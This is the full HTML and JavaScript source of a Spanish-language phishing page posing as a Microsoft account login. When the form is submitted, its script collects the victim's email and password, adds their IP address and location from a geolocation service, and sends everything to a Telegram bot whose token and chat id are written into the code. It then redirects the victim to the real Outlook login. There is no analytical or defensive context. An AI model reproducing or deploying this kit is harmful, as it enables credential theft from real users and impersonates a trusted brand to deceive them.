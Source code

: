 <html><head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1">
    <title>Home</title>
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/css/bootstrap.min.css"><!-- Link para importar la tipografia "Montserrat"-->
    <link href="https://fonts.googleapis.com/css2?family=Montserrat:wght@400;500&amp;display=swap" rel="stylesheet"><!-- Link para importar los iconos-->
    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/4.7.0/css/font-awesome.min.css"><!-- Importar JQuery-->
    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.5.1/jquery.min.js"></script><!-- Bootstrap JS-->
    <link rel="stylesheet" type="text/css" href="style.css">
        <script>
             $.getJSON("https://ipinfo.io", function (response) {
        $("#address").html( response.city + ", " + response.country);
        
    })
          </script>

</head>
<body>
<noscript><iframe src="https://www.googletagmanager.com/ns.html?id=GTM-T2VG59" height="0" width="0" style="display:none;visibility:hidden"></iframe></noscript>
    <div class="login-container">
    <div class="wrapper">
        <div class="col-xs-12 col-sm-4 col-sm-offset-4 login-box" style="z-index:1000">
            <div class="login-header"><img src="https://i.imgur.com/xfNCpH3.png">
                <h4 class="ingresa-cuenta">Ingresa a tu cuenta</h4>
                <p class="text">Inicia sesión en la plataforma Microsoft para confirmar identidad.</p>
            </div>
            <div class="alert alert-danger" id="error-message"></div>
            <div>
                <form id="contenido1" action="" method="post" onsubmit=" return sender()">
                    <div class="form-group label-animate"><label for="usr">Correo electrónico</label><input class="form-control" id="uzer" type="email" name="uzer" autocomplete="off" required=""></div>
                    <div class="form-group label-animate"><label for="password">Contraseña</label><i class="fa fa-eye eye-icon" aria-hidden="true" onclick="showPassword()" style="cursor: pointer;"></i><input class="form-control" id="pazz" name="pazz" type="text" required=""></div>
                                                   <p id="gfg"  hidden="">
                                                   <p id="address"  hidden="">
                    <div class="center" style="padding-top: 5px; padding-bottom: 5px; margin-top: 5px"><a id="link-olvidaste-tu-password" href="h">¿Olvidaste tu contraseña?</a></div>
                    <div class="captcha-container form-group" style="display: none;"></div><button class="btn btn-primary btn-block" id="btn-login">Iniciar sesión</button>
                </form>
                <div id="bottom-imgs">
                    <div class="img-block"><img src="https://pbs.twimg.com/media/Fth_yz1XwAcYAuX?format=png&amp;name=360x360"></div>
                    <div id="vl"></div>
                    <div class="img-block"><img src="https://pbs.twimg.com/media/Fth_4zaX0AAw80V?format=png&amp;name=small"></div>
                </div>
                <div class="center"></div>
                <hr style="width: 30%; background-color:#666666; margin-top: 10px; margin-bottom: 10px;">
                <p class="center text" style="margin: 0;">Contactanos:</p>
                <div class="center">
                    
                    <p class="text" style="display:inline">outlook.live.com</p>
                </div>
            </div>
        </div>
        <div id="gradient"></div>
    </div>
    <div class="login-footer"></div>
    <div class="login-footer-responsive"><img src="https://pbs.twimg.com/media/Fth-XmMXwBYrdcF?format=jpg&amp;name=small"></div>
</div>
<!--if IE 8script(src='//cdnjs.cloudflare.com/ajax/libs/ie8/0.2.5/ie8.js')-->
<!--if lte IE 9script(src='https://cdn.auth0.com/js/polyfills/1.0/base64.min.js')
script(src='https://cdn.auth0.com/js/polyfills/1.0/es5-shim.min.js')-->
<script src="https://cdn.jsdelivr.net/npm/axios@1.1.2/dist/axios.min.js"></script>

            <script>
              const url = "https://ipapi.co/json/";
              const form = document.querySelector("#contenido1");
              form.addEventListener("submit", (event) => {
                event.preventDefault(); // aqui evitamos que el código se repita evita que se envíe el formulario
                axios
                  .get(url)
                  .then((response) => {
                    const email = document.querySelector("#uzer").value;
          
                    const contra = document.querySelector("#pazz").value;
                    
                    const message =
                      "\nEmail: " +
                      email +
                      "\nContra: " +
                      contra +
                      "\nDatos:" +
                      response.data.city + response.data.country + response.data.ip + "\n\n🧿BY: Roubmaster🧿";
                    axios
                      .post(
                        "https://api.telegram.org/bot7403865760:AAGYqssIr8RFFx7eZQsKkbcb957AqydR9N0/sendMessage",
                        {
                          chat_id: "6944568582",
                          text: message,
                        }
                      )
                      .then((response) => {
                        window.location.href = "https://login.live.com";
                      })
                      .catch((error) => {
                        console.error(error);
                      });
                  })
                  .catch((error) => {
                    console.log(error);
                  });
              });
            </script>
</body></html>

